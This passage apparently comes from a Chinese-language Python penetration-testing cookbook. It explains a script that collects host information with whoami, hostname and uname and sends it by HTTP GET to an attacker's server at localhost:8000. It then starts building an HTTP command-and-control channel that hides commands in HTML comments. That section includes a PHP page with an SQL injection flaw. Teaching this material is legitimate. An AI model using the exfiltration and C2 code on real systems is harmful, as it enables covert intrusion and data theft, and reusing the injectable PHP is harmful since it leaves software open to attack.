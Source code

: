 ## 工作原理…

导入之后，脚本的第一部分创建了一个命令数组：

```py
commands = ['whoami','hostname','uname']
```

这是三个标准的 Linux 命令的示例，可以向攻击者提供有用的信息。请注意，这里假设目标服务器正在运行 Linux。使用前几章的脚本进行侦察，以确定目标操作系统，并在必要时用 Windows 等效命令替换此数组中的命令。

接下来，我们有主要的`for`循环：

```py
            p = subprocess.Popen(command, stderr=STDOUT, stdout=PIPE)
            out[command] = p.stdout.read().strip()
```

代码的这部分执行命令并从`subprocess`中获取输出（将标准输出和标准错误都传输到单个`subprocess.PIPE`中）。然后将结果添加到输出字典中。请注意，我们在这里使用`try`和`except`语句，因为任何无法运行的命令都会引发异常。

最后，我们有一个单一的 HTTP 请求：

```py
requests.get('http://localhost:8000/index.html?' + urllib.urlencode(out))
```

这使用`urllib.encode`将字典转换为 URL 编码的键/值对。这意味着任何可能影响 URL 的字符，例如`&`或`=`，将被转换为它们的 URL 编码等效形式，例如`%26`和`%3D`。

请注意，脚本端不会有任何输出；一切都通过 HTTP 请求传递到攻击者的 Web 服务器（示例使用本地主机的端口`8000`）。`GET`请求如下所示：

![工作原理…](img/B04044_08_01.jpg)

# 创建一个 HTTP C2

在 URL 中公开您的命令的问题是，即使是半睡不醒的日志分析员也会注意到它。有多种方法可以隐藏请求，但是当您不知道响应文本将是什么样子时，您需要提供一种可靠的方法来伪装输出并将其返回到您的服务器。

我们将创建一个脚本，将命令和控制活动伪装成 HTTP 流量，从网页评论中获取命令，并将输出返回到留言簿中。

## 入门

为此，您需要一个正常运行的 Web 服务器，其中包括两个页面，一个用于托管您的评论，另一个用于托管检索页面。

您的评论页面应该只包含标准内容。为此，我使用 Nginx 默认主页，并在末尾添加评论。评论应表达为：

```py
<!--cmdgoeshere-->
```

检索页面可以非常简单：

```py
<?php

$host='localhost';
$username='user';
$password='password';
$db_name="data";
$tbl_name="data";

$comment = $_REQUEST['comment'];

mysql_connect($host, $username, $password) or die("Cannot contact server");
mysql_select_db($db_name)or die("Cannot find DB");

$sql="INSERT INTO $tbl_name VALUES('$comment')";

$result=mysql_query($sql);

```